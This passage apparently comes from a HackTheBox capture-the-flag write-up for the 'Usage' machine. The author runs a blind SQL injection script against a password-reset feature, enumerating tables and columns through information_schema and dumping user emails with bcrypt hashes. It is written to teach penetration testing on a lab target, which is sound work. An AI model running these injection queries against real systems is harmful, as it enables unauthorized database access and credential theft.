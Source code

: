 Now, to dump the tables of 'usage_blog' database, I will change the query to `select group_concat(table_name) from information_schema.tables where table_schema='usage_blog'`. After a while I can see the results:

```cmdbash
❯ python3 sqli-reset-password.py "select group_concat(table_name) from information_schema.tables where table_schema='usage_blog'"
[+] Bruteforcing and abusing SQLi...
[+] Query to extract: select group_concat(table_name) from information_schema.tables where table_schema='usage_blog'
[+] Length of select group_concat(table_name) from information_schema.tables where table_schema='usage_blog': 230
[+] select group_concat(table_name) from information_schema.tables where table_schema='usage_blog' extraction: admin_menu,admin_operation_log,admin_permissions,admin_role_menu,admin_role_permissions,admin_role_users,admin_roles,admin_user_permissions,admin_users,blog,failed_jobs,migrations,password_reset_tokens,personal_access_tokens,users

[+] Finished!
```

The most interesting tables are admin_users and users, so I will dump their columns by changing the query to `select group_concat(column_name) from information_schema.columns where table_schema='usage_blog' and table_name='users'` and then to `select group_concat(column_name) from information_schema.columns where table_schema='usage_blog' and table_name='admin_users'`:

```cmdbash
❯ python3 sqli-reset-password.py "select group_concat(column_name) from information_schema.columns where table_schema='usage_blog' and table_name='users'"
[+] Bruteforcing and abusing SQLi...
[+] Query to extract: select group_concat(column_name) from information_schema.columns where table_schema='usage_blog' and table_name='users'
[+] Length of select group_concat(column_name) from information_schema.columns where table_schema='usage_blog' and table_name='users': 77
[+] select group_concat(column_name) from information_schema.columns where table_schema='usage_blog' and table_name='users' extraction: created_at,email,email_verified_at,id,name,password,remember_token,updated_at

[+] Finished!
```

The `users` table most interesting columns are `email` and `password`. However, I saw that there were a lot of users that were HackTheBox players and only two belonged to the machine, so I will hide them here and show only the interesting ones:

```cmdbash
❯ python3 sqli-reset-password.py "select group_concat((BINARY email),':',(BINARY password)) from usage_blog.users"
[+] Bruteforcing and abusing SQLi...
[+] Query to extract: select group_concat((BINARY email),':',(BINARY password)) from usage_blog.users
[+] Length of select group_concat((BINARY email),':',(BINARY password)) from usage_blog.users: 382
[+] select group_concat((BINARY email),':',(BINARY password)) from usage_blog.users extraction: raj@raj.com:$2y$10$7ALmTTEYfRVd8Rnyep/ck.bSFKfXfsltPLkyQqSp/TT7X1wApJt4.,raj@usage.htb:$2y$10$rbNCGxpWp1HSpO1gQX4uPO.pDg1nszoI/UhwHvfHDdfdfo9VmDJsa
```
